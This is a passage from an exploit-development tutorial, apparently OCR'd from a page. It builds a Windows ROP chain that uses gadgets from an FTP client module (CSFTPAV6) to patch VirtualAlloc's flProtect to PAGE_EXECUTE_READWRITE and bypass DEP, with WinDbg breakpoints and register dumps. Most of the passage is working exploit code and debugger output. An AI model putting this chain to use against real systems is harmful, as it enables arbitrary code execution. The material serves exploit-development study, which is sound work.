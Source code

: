 ```c
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret  
rop += pack("<L", (0x80808080)) # first value to be added  
rop += pack("<L", (0x505115a3)) # pop ecx ; ret  
rop += pack("<L", (0x7f7f8f80)) # second value to be added  
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret  
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
```
**Note: due to the reuse of some gadgets, we can create conditional breakpoint to stop in a gadget but only if the value of the registers are the ones we want. For example, here stop in 0x505179a only if EAX is 0x80808080**:
```
bp 0x5051579a ".if (@eax & 0x0`ffffffff) = 0x80808080 {} .else {gc}"
```

## Patching flProtect
The last argument is the new memory protection value, which, in essence, is what allows us to bypass DEP. We want the enum PAGE_EXECUTE_READWRITE, which has the numerical value 0x40.
In order to write that to the stack, we will reuse the same technique we did for flAllocationType.
As it has null bytes (0x00000040) we have to do the neg trick. Let's find out the value:
```c
0:063> ? 40 - 80808080
Evaluate expression: -2155905088 = ffffffff`7f7f7fc0
0:063> ? 80808080 + 7f7f7fc0
Evaluate expression: 4294967360 = 00000001`00000040
```
According to the additions, we can use the values 0x80808080 and 0x7f7f7fc0 to obtain the desired value of 0x40. This would be the ROP chain to patch flProtect, doing everything we have done for the other variables (EIP increment, setting up the operations and patching the value in the address):
```c
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret  
rop += pack("<L", (0x80808080)) # first value to be added  
rop += pack("<L", (0x505115a3)) # pop ecx ; ret  
rop += pack("<L", (0x7f7f7fc0)) # second value to be added  
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret  
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
```
**Note: We have finished our full exploit with all the gadgets. A recommendation is to add the following gadget that will make a software breakpoint, in order to execute the entire ROP chain and catch the execution flow jut after the flProtect value has been patched:**
```c
rop += pack("<L", (0x5051e4db)) # int3 ; push eax ; call esi
```
Note that only int3 will be executed, the other instructions will get paused. Remember to remove it after inspecting that everything works:
```c
0:078> g
(16b0.4c0): Break instruction exception - code 80000003 (first chance)
eax=00000040 ebx=05aebf60 ecx=7f7f7fc0 edx=77292da0 esi=0184e304 edi=00000000
eip=5051e4db esp=0184e40c ebp=51515151 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
CSFTPAV6!FtpUploadFileW+0xd63d:
5051e4db cc              int     3


0:055> dds esi - 14
0184e2f0  76c05680 KERNEL32!VirtualAllocStub
0184e2f4  0184e504
```